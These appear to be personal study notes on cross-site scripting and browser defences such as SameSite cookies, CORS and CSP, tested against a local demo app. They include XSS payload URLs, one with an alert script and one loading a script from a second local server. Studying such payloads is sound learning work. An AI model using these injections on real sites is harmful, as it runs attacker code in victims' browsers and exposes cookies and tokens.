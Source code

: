 ```
http://localhost:9081/xss-attack?xssvalue=<script>alert("XSS attack!")</script>
document.getElementsByTagName('*')
document.getElementsByTagName("*")[2].innerHTML
document.getElementsByTagName("*")[2].outerHTML

http://localhost:9081/xss-attack?xssvalue="<script>"alert("XSS attack!")</script>
document.getElementsByTagName('*')
document.getElementsByTagName("*")[3].innerHTML
document.getElementsByTagName("*")[3].outerHTML

inner HTML= text contents of the HTML without DOM elements like <p>,<a>, <div>
outer HTML=HTML DOM Element in the DOM, content + HTML elements like <p>,<a>, <div>
```

https://nodeployfriday.com/posts/cors-cyber-attacks/

http://localhost:9081/xss-attack?xssvalue=<script src=http://localhost:3000/xss/xss.js> </script>
document.getElementsByTagName('\*')
document.getElementsByTagName("\*")[2].innerHTML
document.getElementsByTagName("\*")[2].outerHTML

same site created before javascript to protect cookies
cookies controls are protected by samesite NOT same origin
HTML only controls (does not restrict Javascript)

BROWSER controls over cookies management vs JAVA script control over reading reponses which runs in browser created by unknown developer (access to cookies, local storage, JWT, data in responses, JS PUT and POSTS)
cors HTTP requests
csp content like javascript
